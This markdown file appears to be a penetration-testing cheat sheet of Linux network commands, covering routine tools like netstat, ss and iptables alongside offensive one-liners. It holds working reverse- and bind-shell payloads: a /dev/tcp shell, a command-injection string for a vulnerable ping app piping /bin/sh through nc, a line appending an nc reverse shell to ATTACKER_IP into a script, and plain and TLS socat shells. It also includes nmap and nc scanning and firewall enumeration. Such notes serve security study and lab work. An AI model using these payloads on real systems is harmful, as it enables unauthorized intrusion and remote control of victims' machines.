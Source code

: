 # Network command

* Display the routing table
```bash
route
```

* Check network throughput on different interfaces
```bash
cat /proc/net/dev
```

* Interactive bash shell
```bash
/bin/bash -i > /dev/tcp/IP/PORT 0<&1 2>&1
```

* Another way to get bind shell with command execution (vulnerable `ping` web app)
```bash
192.168.0.18; rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc -lp 9999 > /tmp/f
```

* One liner reverse shell with `nc`
```bash
# Adding a newline to the vulnerable script
echo >> vulnerable.sh 
echo "rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1  | nc ATTACKER_IP 1337 > /tmp/f" >> vulnerable.sh
```

* TCP scanning with `nc`. `-w` specifies timeout in seconds. 
```bash
nc -nvv -w 1 -z 127.0.0.1 1000-2000
```
* Transfer file with `nc`! `-n` for numeric only IP addresses.
```bash
# Receiver
nc -nlvp 1337 > recv.txt

# Sender
nc 127.0.0.1 1337 < file.txt
```


# Network tool
## `netstat`

* `-r` Show current system's routing table
```bash
netstat -r
```

* `-a` Show all connection, `-t` for TCP connection, `-u` for UDP connection
```bash
netstat -atu
```

* `-l` Show only listening connection.
```bash
netstat -lt
```

* `-p` Show the process and PID that is running to handle the network connection
```bash
netstat -p
```

* `-n` Show the numeric port number instead of trying to dynamically determine the symbolic host
```bash
netstat -n
```

* Restart network manager in kali
```bash
#!/bin/bash
sudo service networking restart
sudo service network-manager restart
```

* nmap -A: Aggressive mode
```bash
nmap -A IP
```

* Scanning all services given a server with `nmap`
```bash
nmap -A 192.168.0.1
```

* `-sV` for detecting version, `-p-` for all ports, `-T4` for fast execution time.
```
nmap -p- -T4 -sV IP_ADDR
```

* `socat`, SOcket CAT, `TCP4` specifies the protocol, `-` is used to transfer data between `stdio` and remote host, allowing keyboard interaction with the shell
```bash
socat - TCP4:127.0.0.1:8080
```

* Bind a port to listen using `socat`, `STDOUT` redirects output to terminal
```bash
sudo socat TCP4-LISTEN:443 STDOUT
```

* File transfer with `socat`, `fork` will fork a child process whenever a client connects to the server, and will run indefinitely until killed. `file` is the option to specify which file to transfer. `create` will create the file if it doesn't exist.
```bash
server:
socat TCP4-LISTEN:8888,fork file:secret.txt

client:
socat TCP4:localhost:8888 file:receive.txt,create
```

* Reverse shell with `socat`, `-d -d` for more verbose output, `EXEC` is the option to run a target executable after client connects to it.
```bash
attacker:
socat -d -d TCP4-LISTEN:1337 STDOUT

victim:
socat TCP4:ATTACKER_IP:1337 EXEC:/bin/bash
```

* Encrypted reverse shell with `socat`. After generating a self-signed cert with `openssl`, we will use `cert` option to indicate our desire certificate to use for encryption, and `verify=0` to disable SSL certificate verification since it is a self-signed cert. 
```bash
attacker:
socat OPENSSL:VICTIM_IP:1337,verify=0

victim:
socat OPENSSL-LISTEN:1337 cert=server.pem, verify=0, fork EXEC:/bin/bash
```

* Show possible mount point given a server that is running NFS
```bash
showmount -e 192.168.0.1
```

* Show IP table rules
```bash
sudo iptables-save
```

* Disable a network interface card
```bash
sudo ifconfig eth0 down
```

* Enable a network interface card
```bash
sudo ifconfig eth0 up
```

* `ss`, socket statistic, `-a` shows all listening and non-listening sockets, `-n` displays the numeric IP, and does not resolve service name, `-t` specifies TCP sockets, `-l` displays only listening sockets, `-p` shows the process that is using the socket

* Display active network connection with `netstat` or `ss`, `-a` lists all connection, `-n` display the numeric value of address and port, `-p` display the process that's using the connection
```bash
ss -anp
```

## Firewall Enumeration
* To show firewall rules in Linux, we must have root privilege to use `iptables`. But, we might able to find some saved iptable rules in `/etc/*` using `grep`. `-H` shows the file name of a match, `-s` suppress error message
```bash
grep -Hs iptables /etc/*
```
